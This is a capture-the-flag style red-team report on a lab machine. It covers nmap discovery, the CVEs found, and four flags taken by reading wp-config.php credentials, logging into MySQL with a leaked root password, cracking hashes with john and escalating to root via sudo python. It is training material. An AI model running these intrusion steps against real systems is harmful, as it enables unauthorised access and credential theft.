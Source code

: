 # Red Team: Summary of Operations

## Table of Contents

-   Exposed Services
-   Critical Vulnerabilities
-   Exploitation

### Exposed Services

1.  *Find all machines on the network*

> Nmap -sP 192.168.1.1-255
>
> <img src="./media/image1.png" style="width:4.88749in;height:2.75928in"
> alt="Graphical user interface, text Description automatically generated" />

Nmap scan results for each machine reveal the below services and OS
details:

    $ nmap -sV  192.168.1.110
     

This scan identifies the services below as potential points of entry: -
Target 1 - This scan identifies the services below as potential points
of entry:

| **Port** | **Type** | **State** | **Service** | **Version**     |
|----------|----------|-----------|-------------|-----------------|
| 22       | TCP      | Open      | SSH         | OpenSSH 6.7p1   |
| 80       | TCP      | Open      | httpd       | Apache 2.4.10   |
| 111      | TCP      | Open      | rpcbind     | 2-4             |
| 139      | TCP      | Open      | Netbios-ssn | Samba 3.x – 4.x |
| 445      | TCP      | Open      | Netbios-ssn | Samba 3.x – 4.x |

The following vulnerabilities were identified on Target 1:

Target 1

CVE-2021-28041 open SSH

CVE-2017-15710 Apache https 2.4.10

CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS

CVE-2017-7494 Samba NetBIOSExploitation

The Red Team was able to penetrate `Target 1` and retrieve the following
confidential data: - Target 1

\- `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}

> \- **Exploit Used:** curl
>
> \- **Command used**: curl <http://192.168.1.110/service.html> \| grep
> flag

<img src="./media/image3.png" style="width:5.3591in;height:1.53387in"
alt="Graphical user interface, text Description automatically generated" />

\- `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

\- **Exploit Used** - *ssh in to 192.168.1.110 using Michael’s account*

*find / -type f -name 'flag\*.txt' 2\>/dev/null*

\- *Command Used: cat /var/www/flag2.txt*

<img src="./media/image4.png" style="width:3.98599in;height:2.5301in"
alt="Text Description automatically generated" />

\- `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}

\- **Exploit Used** – Use wordpress DB information retrieved from
wordpress configuration

cat /var/www/html/wordpress/wp-config.php \| grep -i db

<img src="./media/image5.png" style="width:3.96491in;height:2.51074in"
alt="Graphical user interface, text, chat or text message Description automatically generated" />

Access the mysql db

mysql -u root -pR@v3nSecurity

show databases;

<img src="./media/image6.png" style="width:1.09237in;height:0.97605in"
alt="Text Description automatically generated" />

\- *Command Used to get the flag 3:*

*use wordpress; select post_content from wp_posts where post_content
like 'flag%';*

<img src="./media/image7.png" style="width:5.89218in;height:2.40854in"
alt="Graphical user interface, text Description automatically generated" />

\- `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}

\- **Exploit Used**

Exploit option 1:

\- *Query wordpress DB*

\- *Command Used: select post_content from wp_posts where post_content
like 'flag%';*

Exploit option 2:

-   Used john to crack the password hash obtained from MySQL database,
    secured a new user shell as Steven, escalated to root.

-   Cracking the password hash with john/johnny

> <img src="./media/image8.png" style="width:3.72209in;height:2.27024in"
> alt="Graphical user interface, application Description automatically generated" />

-   ssh using steven’s account to 192.168.1.110

-   Escalating to root using the command: sudo python -c ‘import
    pty;pty.spawn(“/bin/bash”)’

-   Run command to find the file: find / -type f -name 'flag\*.txt'
    2\>/dev/null

-   Read the flag4 file: cat /root/flag4.txt

> <img src="./media/image9.png" style="width:2.67175in;height:3.32881in"
> alt="Text Description automatically generated" />

